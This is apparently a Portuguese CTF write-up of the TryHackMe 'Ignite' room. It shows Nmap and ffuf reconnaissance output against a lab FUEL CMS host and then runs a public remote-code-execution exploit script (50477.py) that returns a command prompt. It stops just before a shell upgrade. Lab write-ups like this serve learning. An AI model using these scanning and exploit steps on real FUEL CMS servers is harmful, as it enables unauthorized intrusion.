 ```yaml
---
title: 'TryHackMe: Ignite'
author: Kertonli
categories: [TryHackMe]
tags: [Fácil, Nmap, Ffuf]
image:
  path: assets/images/tryhackme/ignite/image.png
---
```


## Nmap

Abrindo o site Já podemos encontrar muitas informações. Está rodando um CMS mal configurado, e lendo um pouco descobri a existência da rota /fuel:

![alt text](assets/images/tryhackme/ignite/image2.png)

![alt text](assets/images/tryhackme/ignite/image3.png)

Entrando na rota e colocando o login e a senha temos acesso ao painel de admin. Isso pode ser usado mais tarde, por exemplo se um exploit precisar do acesso ao painel de admin para funcionar.

![alt text](assets/images/tryhackme/ignite/image4.png)

Vamos começar com aquele Nmap padrão:

```

nmap -sC -sV -T4 -sS -Pn -A -p- 10.10.97.246   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 06:25 -03
Stats: 0:06:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 45.48% done; ETC: 06:38 (0:07:15 remaining)
Stats: 0:12:35 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 92.08% done; ETC: 06:38 (0:01:05 remaining)
Nmap scan report for 10.10.97.246
Host is up (0.23s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=2/13%OT=80%CT=1%CU=43989%PV=Y%DS=2%DC=T%G=Y%TM=67ADBDC
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=104%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%
OS:CI=I%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)SEQ(SP=106%G
OS:CD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M5
OS:08NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF
OS:%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%C
OS:C=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%
OS:T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   263.32 ms 10.8.0.1
2   263.45 ms 10.10.97.246

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 859.82 seconds


```

Vamos fazer também uma enumeração de subdiretórios com Ffuf:

```

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http://10.10.97.246/FUZZ -c -v

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.97.246/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 16595, Words: 770, Lines: 232, Duration: 309ms]
| URL | http://10.10.97.246/0
    * FUZZ: 0

[Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 7985ms]
| URL | http://10.10.97.246/.htaccess
    * FUZZ: .htaccess

[Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 207ms]
| URL | http://10.10.97.246/.htpasswd
    * FUZZ: .htpasswd

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 321ms]
| URL | http://10.10.97.246/assets
| --> | http://10.10.97.246/assets/
    * FUZZ: assets

[Status: 200, Size: 16595, Words: 770, Lines: 232, Duration: 219ms]
| URL | http://10.10.97.246/home
    * FUZZ: home

[Status: 200, Size: 16595, Words: 770, Lines: 232, Duration: 221ms]
| URL | http://10.10.97.246/index
    * FUZZ: index

[Status: 200, Size: 70, Words: 8, Lines: 2, Duration: 267ms]
| URL | http://10.10.97.246/offline
    * FUZZ: offline

[Status: 200, Size: 30, Words: 3, Lines: 2, Duration: 236ms]
| URL | http://10.10.97.246/robots.txt
    * FUZZ: robots.txt

[Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 240ms]
| URL | http://10.10.97.246/server-status
    * FUZZ: server-status

[Status: 200, Size: 398, Words: 13, Lines: 12, Duration: 5522ms]
| URL | http://10.10.97.246/sitemap_xml
    * FUZZ: sitemap_xml

:: Progress: [20478/20478] :: Job [1/1] :: 177 req/sec :: Duration: [0:03:16] :: Errors: 0 ::

```

Essas rotas não me trouxeram nada promissor, então só me resta pesquisar se existe algum CVE que faça o exploit do FUEL CMS na versão 1.4.

![alt text](assets/images/tryhackme/ignite/image5.png)

```

python3 50477.py -u http://10.10.97.246 
[+]Connecting...
Enter Command $ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt


```

Usando isso como guia: https://0xffsec.com/handbook/shells/full-tty/ , vamos tentar melhorar essa shell para um tty.

... CONTINUA ...